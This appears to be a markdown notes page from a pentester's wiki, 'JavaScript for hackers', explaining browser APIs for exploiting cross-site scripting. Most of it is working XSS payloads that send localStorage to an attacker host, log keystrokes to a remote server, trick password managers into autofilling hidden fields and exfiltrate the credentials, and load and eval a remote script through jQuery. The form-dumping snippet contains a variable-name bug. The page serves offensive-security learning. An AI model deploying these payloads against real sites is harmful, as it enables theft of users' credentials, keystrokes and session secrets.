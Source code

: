 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```


## Useful JavaScript APIs

Notes on some useful JavaScript APIs to interact with the browser maliciously.

### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)

Represents the window the entire document (the HTML response from the server)
lives. This gives us access to the URL via the _location_ property and
_localStorage_ which may contain secrets.

Treat Window as global, any properties set here or any methods we have access
can be used in the global context, like `alert()`. `alert()`is one of the
primary methods we can use to prove that a
[[cross-site-scripting|XSS vulnerability]] exists in an application.

#### Exposing storage

Browsers cache important secrets in the `Window` namespace of a user's browsing
session. With XSS, we can exfiltrate this data by targeting the
[`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage)
and
[`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage)
objects in the `Window` namespace:

```javascript
fetch(
  "http://ATTACKER_IP_ADDRESS/exfil?data=" +
    encodeURIComponent(JSON.stringify(localStorage)),
)
```

### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)

A powerful API that allows us to interact with the document object model (DOM)
of the web page we're attacking. The DOM provides us with access to all text
inputs, usernames, passwords, cookies, etc. as well as all keypress events.

#### Dumping all input forms

A useful method in the `Document` namespace is
[`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName).
For example, let's dump the contents of all forms in the document that are
tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input")

for (let inputForm of inputForms) {
  console.log(input.value)
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is
actually provided [here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes

Another fun technique to disclose information from a victim using the `Document`
namespace is key logging. Whenever a
[`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event)
event occurs, we can execute some JavaScript to retrieve the keys pressed by the
victim:

```javascript
function keyLog(event) {
  console.log(event.key)
}

document.addEventListener("keydown", keyLog)
```

More information about the `addEventListener()` API can be found
[here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to
the console, not super useful for an attacker unless I can somehow view the
victim's console! Instead, we need to exfiltrate this data.

Using the
[`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)
API, we can coerce the victim into making a web request to a server we own. The
result of the `fetch` action doesn't matter either because `fetch` just returns
a
[`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise).
This means we can avoid crashing our script when the `fetch` action fails. Now,
when we log a keystroke from the user, we can append the keystroke to a web
request targeted at a server we host, allowing us to see the victim's
keystrokes:

```javascript
function keyLog(event) {
  fetch("http://<WEB_SERVER_IP_ADDRESS>/k?key=" + event.key)
}

document.addEventListener("keydown", keyLog)
```

#### Dumping credentials from password managers

Password managers are great; you should definitely be using one! But this
particular script attacks password managers into autofilling HTML DOM `input`
objects that look like username and password prompts.

Using this XSS payload, we modify the document, adding input forms for a
username and a password, hide them with an opacity of 0, and exfiltrate the
username and password values after waiting 5 seconds for the password manager to
input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input")
u.type = "text"
u.style.position = "fixed"
u.style.opacity = "0"
var p = document.createElement("input")
p.type = "password"
p.style.position = "fixed"
p.style.opacity = "0"
body.append(u)
body.append(p)
setTimeout(function () {
  fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)
}, 5000)
```

### [jQuery](https://en.wikipedia.org/wiki/JQuery)

#### Using jQuery to load remote scripts

Probably not super useful is Cross-Origin protections are an issue, however, if
a server provides clients (browsers) with jQuery as a resource, we can use the
[`getScript()`](https://api.jquery.com/jquery.getscript/) method to load a
script from an arbitrary location, either locally or with a remote URI, and
execute a callback function when the script is loaded successfully. Here's an
example:

```javascript
jQuery.getScript(
  "http://ATTACKER_IP_ADDRESS/dump-password.js",
  function (script, textStatus, jqXHR) {
    eval(script)
  },
)
```

We can use great functions like
[`atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob),
[`btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa), and
[`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
to bypass any encoding issues upon delivery. It's likely you'll need to convert
the result of the `getScript()` operation to ASCII using `btoa()` to avoid
runtime exceptions. The code you're injecting into probably won't handle the
return value of `getScript()` well - it returns a callback object.

## Related pages

- [[cross-site-scripting|Cross site scripting]]
